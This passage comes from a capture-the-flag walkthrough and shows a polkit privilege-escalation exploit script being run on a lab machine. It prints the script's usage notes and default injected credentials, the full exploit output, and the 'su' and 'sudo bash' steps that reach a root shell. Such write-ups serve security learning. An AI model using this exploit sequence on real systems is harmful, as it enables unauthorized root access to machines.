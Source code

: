 ```
        Format to enter time: '-t=.004' or '-t=0.004' if you want to set sleep time as 0.004ms 
Note:
Equal to symbol (=) after specifying an option is mandatory.
If you don't specify the options, then the script will automatically detect the possible time and
will try to insert a new user using that time.
Default credentials are 'secnigma:secnigmaftw'
If the exploit ran successfully, then you can login using 'su - secnigma'
and you can spawn a bash shell as root using 'sudo bash'
IMPORTANT: THIS IS A TIMING BASED ATTACK. MULTIPLE TRIES ARE USUALLY REQUIRED!!

[dwight@paper lol]$
```

So the password is `secnigmaftw`

I'll run the exploit and switch to the user the `sudo bash` this has to be done quickly cause the injected user will be removed after few seconds

```
[dwight@paper lol]$ ./root.sh                                                                                                                                                                                      
[!] Username set as : secnigma                                                                                                                                                                                     
[!] No Custom Timing specified.                                                                                                                                                                                    
[!] Timing will be detected Automatically                                                                                                                                                                          
[!] Force flag not set.                                                                                                                                                                                            
[!] Vulnerability checking is ENABLED!                                                                                                                                                                             
[!] Starting Vulnerability Checks...                                                                                                                                                                               
[!] Checking distribution...                                                                                                                                                                                       
[!] Detected Linux distribution as "centos"
[!] Checking if Accountsservice and Gnome-Control-Center is installed
[+] Accounts service and Gnome-Control-Center Installation Found!!
[!] Checking if polkit version is vulnerable
[+] Polkit version appears to be vulnerable!!
[!] Starting exploit...
[!] Inserting Username secnigma...
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
[+] Inserted Username secnigma  with UID 1005!
[!] Inserting password hash...
[!] It looks like the password insertion was succesful!
[!] Try to login as the injected user using su - secnigma
[!] When prompted for password, enter your password 
[!] If the username is inserted, but the login fails; try running the exploit again.
[!] If the login was succesful,simply enter 'sudo bash' and drop into a root shell!
[dwight@paper lol]$ su - secnigma
Password: 
[secnigma@paper ~]$ sudo bash
[sudo] password for secnigma: 
[root@paper secnigma]# cd /root
[root@paper ~]# 
```